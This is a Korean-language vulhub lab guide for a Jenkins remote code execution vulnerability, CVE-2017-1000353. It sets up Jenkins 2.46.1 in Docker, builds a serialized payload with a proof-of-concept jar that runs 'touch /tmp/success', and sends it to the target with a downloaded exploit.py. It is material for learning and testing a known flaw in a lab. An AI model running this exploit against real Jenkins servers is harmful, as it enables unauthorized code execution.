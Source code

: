 # Whitehat School `vulhub` 한글판
# Jenkins-CI 원격 코드 실행 취약점（CVE-2017-1000353）

## 원리

참고 :  https://blogs.securiteam.com/index.php/archives/3171

## 환경 구축

다음 명령을 실행해 jenkins 2.46.1 시작:

```
docker compose up -d
```

부팅이 완료되면 `http://your-ip:8080` 를 방문해 jenkins가 설치되어 있는것을 확인할 수 있다.

## 테스트 과정

### 1. Serialize 문자열 생성
참고 <https://github.com/vulhub/CVE-2017-1000353>
먼저 CVE-2017-1000353-1.1-SNAPSHOT-all.jar 다운받습니다. 이것은 POC를 생성하는 도구다.

다음 명령을 실행하여 바이트 코드 파일 생성 :

```bash
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "touch /tmp/success"
# jenkins_poc.ser 생성된 바이트 코드 파일 이름
# "touch ..." 실행할 명령
```

코드를 실행하면 jenkins_poc.ser 파일이 생성된다. 이것은 직렬화된(Serialize) 문자열이다.

### 2. 패킷 전송, 명령 실행

[exploit.py]다운로드 https://github.com/vulhub/CVE-2017-1000353/blob/master/exploit.py, 
python3 실행 `python exploit.py http://your-ip:8080 jenkins_poc.ser`
방금 생성한 바이트 코드 파일을 대상에게 보냅니다:


docker에 들어가면 /tmp/success가 성공적으로 생성되어 취약점을 이용한 공격이 성공했음을 확인할 수 있다.
